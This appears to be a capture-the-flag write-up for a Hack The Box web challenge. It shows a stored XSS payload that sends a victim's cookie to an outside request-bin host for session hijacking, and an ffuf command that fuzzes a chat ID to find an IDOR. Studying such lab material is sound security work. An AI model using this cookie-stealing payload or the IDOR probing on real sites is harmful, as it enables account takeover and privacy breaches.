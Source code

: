 
2025-03-02 18:03

Source: #htb 

we find a chat feature in the website 
Let's try to send her a simple HTML payload with see how the chat behaves.

We notice that the chat renders the HTML. Let's try to send a simple [[XSS]] payload to steal her cookie. Because, the challenge works over the Internet, the simplest way to catch the request is to create a [Request Bin](https://requestbin.whapi.cloud/) and use the address of the bin on our payload.

```html
<script>document.location="https://requestbin.whapi.cloud/16gnxcm1?inspect="+document.cookie</script>
```

Once we sent the payload, we refresh our bin and we notice two requests. One of the requests is because our browser also rendered the XSS payload. We inspect our cookie on the website and we grab the cookie from the request that doesn't match our own.

We replace the cookie on our browser on the website, we refresh the page and we are logged in as `Renata` and we can see the flag in her DMs

### Alternate

I noticed the URL is `http://94.237.59.40:56545/chat/?rid=6`
I can check to see if this is vulnerable to In-Direct Object Reference (IDOR) by fuzzing those numbers using [[ffuf]]

```sh
ffuf -w numbers.txt -u "http://94.237.59.40:56545/chat/?rid=FUZZ" -rate 1 -H "Cookie: session=eyJ1c2VyIjp7ImlkIjo1LCJ1c2VybmFtZSI6ImNub3gifX0.Z7QLQg.wZSPjLctGoZsvqTMijDBY6xMYkM"
```

6 returns a 200, expected. but 3 also returns a 200! 

### References
https://app.hackthebox.com/challenges/OnlyHacks